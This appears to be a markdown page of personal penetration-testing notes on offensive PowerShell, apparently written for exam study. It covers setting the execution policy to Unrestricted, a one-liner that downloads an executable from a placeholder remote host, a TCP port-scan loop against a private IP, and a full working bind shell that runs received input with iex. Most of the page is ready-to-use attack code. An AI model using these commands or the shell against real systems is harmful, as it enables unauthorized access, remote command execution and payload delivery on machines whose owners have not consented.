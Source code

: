The default policy is “Restricted”, which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts  
  
### To set an Unrestricted policy:  
• Run PowerShell as an Administrator  
• **Set-ExecutionPolicy Unrestricted**  
  
Verify with **Get-ExecutionPolicy**   
  
**-c** - Execute given command (wrapped in double-quotes)  
**new-object** - Cmdlet that allows instantiation of either a .NET framework or COM object  
**iex** - Cmdlet that evaluates or runs a specified string as a command and returns the results of the expression or command  

### File transfer:
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://ip address/wget.exe','C:\Users\*****\Desktop\wget.exe')"  
wget.exe -V
```
- **WebClient** class, which is defined and implemented in the [System.Net](https://docs.microsoft.com/en-us/dotnet/api/system.net?view=netframework-4.7.2) namespace.  
	- The **WebClient** class is used to access resources identified by a URI and it exposes a public method called **DownloadFile**  
- **DownloadFile** requires two key parameters: a source location (in the form of a URI as we previously stated), and a target location where the retrieved data will be stored.

### Port Scanning:
```powershell
Test-NetConnection -Port 445 192.168.50.151
```

Script to scan ports 1-1024 on target IP:     (Takes forever)
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```
	Pipe the first 1024 integers into a for loop which assigns the integer to the variable $_
	Create a _Net.Sockets.TcpClient_ object & perform a TCP conn against the target IP on that port
	If successful, prompt a log message including the open port

### Bind Shell:
Use **-n** when connecting w/ [netcat](Tools.md#netcat) as bind shell may not always present command prompt on initial connection.
```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);  
$listener.start();  
$client = $listener.AcceptTcpClient();  
$stream = $client.GetStream();  
[byte[]]$bytes = 0..65535|%{0};  
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)  
{  
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);  
    $sendback = (iex $data 2>&1 | Out-String );  
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';  
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);  
    $stream.Write($sendbyte,0,$sendbyte.Length);  
    $stream.Flush()  
}  
$client.Close();  
$listener.Stop();
```
